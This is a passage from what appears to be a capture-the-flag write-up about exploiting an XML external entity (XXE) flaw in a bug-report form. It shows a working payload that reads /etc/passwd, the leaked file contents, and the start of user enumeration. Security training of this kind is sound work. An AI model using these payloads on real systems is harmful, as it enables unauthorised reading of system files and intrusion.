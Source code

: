 That `&example;` entity should be replaced with a string `lazicdusan.com` in the response.

I encoded the XML to base64, sent the request and I got this response.

```html
(...)
If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>lazicdusan.com</td>
  </tr>
  <tr>
(...)
```

It worked. The next thing I tried is to perform local file inclusion and get `/etc/passwd`. Payload in the following XML is from the same payload list.

**Request:**
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<bugreport>
<title>&xxe;</title>
<cwe>CWE-100</cwe>
<cvss>8</cvss>
<reward>3000</reward>
</bugreport>
```

**Response:**
```html
(...)
If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
(...)
```
It worked!

I had /etc/passwd/ file so I could enumerate the users of the system. 

The first column in /etc/passwd represents the user's username, and the last one represents the absolute path to the user's shell. Most of the users listed in /etc/passwd file can't actually login, and their shell is set to `/usr/sbin/nologin`. To see the users who can login, we can look for the users that have their shell set to `/bin/bash`.

I saved the response in a file and searched for `/bin/bash` using grep.

